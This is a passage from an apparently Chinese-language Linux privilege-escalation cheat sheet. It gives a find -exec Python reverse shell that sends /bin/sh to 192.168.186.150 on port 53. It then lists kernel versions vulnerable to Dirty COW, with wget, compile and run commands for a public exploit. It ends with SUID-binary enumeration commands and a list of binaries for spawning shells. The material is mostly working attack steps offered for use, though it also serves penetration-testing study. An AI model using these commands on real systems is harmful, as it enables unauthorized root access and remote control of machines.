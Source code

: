 另一个例子

```bash
/usr/bin/find pass.txt -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.186.150",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;
```
## 0x04 脏牛提权
```
漏洞在全版本Linux系统(Linux kernel >= 2.6.22)均可以实现提权
如果内核版本低于列表里的版本，表示还存在脏牛漏洞
Centos7 /RHEL7    3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10         4.8.0-26.28
Ubuntu 16.04         4.4.0-45.66
Ubuntu 14.04         3.13.0-100.147
Debian 8                3.16.36-1+deb8u2
Debian 7                3.2.82-1
```
[exp地址](https://github.com/FireFart/dirtycow)
```bash
wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
## 0x05 SUID提权
> SUID 是设置用户权限，赋予执行者暂时拥有文件拥有者的权限
```bash
chmod u+s
chmod 4755
有s标志位就是拥有suid权限
```
查找符合条件的文件
```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
之后可以使用这些可执行文件进行反弹shell等操作。

现在已知的具有SUID权限的二进制可执行文件大体有如下这些:

```bash
nmap
vim
find
bash
more
less
nano
cp
awk
```
